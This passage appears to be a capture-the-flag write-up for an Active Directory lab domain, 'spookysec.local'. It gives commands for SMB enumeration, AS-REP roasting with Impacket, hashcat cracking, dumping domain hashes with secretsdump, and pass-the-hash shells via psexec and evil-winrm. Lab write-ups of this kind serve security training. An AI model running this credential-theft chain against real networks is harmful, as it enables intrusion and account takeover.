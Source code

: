 So as far we found 
1. Domain name - spookysec.local
2. Users - srv-admin,backup,administrator

3. So now we will enum the SMB service 
`smbclient -L spookysec.local --user svc-admin`
`smbclient \\\\spookysec.local\\backup --user svc-admin`

## Exploiting Kerberos
After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

---
`python3 GetNPUsers.py spookysec.local/svc-admin` gives this hash so we have the hash now as we can query without a password.

![https://i.imgur.com/1g1GG4w.png](https://i.imgur.com/1g1GG4w.png)
*Hash we need to crack*

````
hashcat -m 18200 hash.txt passwordlist.txt
````

By the above command we will be able to get the cracked password.

After having creds we can dump the files 
````
python3 secretsdump.py -just-dc backup@spookysec.local
````

![https://i.imgur.com/yiTiBai.png](https://i.imgur.com/yiTiBai.png)

It used DRSUAPI method to get those hases 
Now
Getting the shell by the password ntlm we found

```
sudo python3 psexec.py Administrator:@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

or use
````
evil-winrm -i 10.10.63.2 -u Administrator -H e4876a80a723612986d7609aa5ebc12b
````
*gem install evil-winrm*

This method of auth is called [**Pass The Hash**](https://attack.stealthbits.com/pass-the-hash-attack-explained)
[Cyber Mentor](https://www.youtube.com/watch?v=L8fK5-oTSws)
